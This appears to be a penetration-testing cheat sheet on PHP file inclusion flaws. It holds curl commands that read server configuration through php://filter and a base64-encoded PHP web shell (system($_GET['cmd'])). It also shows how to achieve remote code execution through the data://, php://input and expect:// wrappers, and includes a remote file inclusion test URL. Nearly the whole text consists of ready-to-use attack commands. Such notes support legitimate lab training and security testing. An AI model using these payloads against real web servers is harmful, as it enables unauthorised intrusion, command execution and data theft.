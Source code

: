 ```curl
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
## Remote Code Execution
`allow_url_include` enabled
###### Encode PHP Web Shell
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64
```
`Note: Must be URL Encode`
##### LFI Attack
`data://text/plain;base64,`
```LFI
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<encoded-php-web-shell>&cmd=id
```
###### Curl
```curl
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<encoded-php-web-shell>&cmd=id' | grep uid
```
###### List Directories
```curl
curl -s 'http://STMIP:STMPO/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls+/' | grep -v "<.*>"
```
## Input
`allow_url_include` enabled
The [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code.
```curl
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
## Expect
The [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams.
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
`extension=expect`

```curl
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

# Remote File Inclusion (RFI)
[Remote File Inclusion (RFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion)
## Verify RFI
```RFI
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
`allow_url_include = On`
###### Example Attack
```RFI
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```
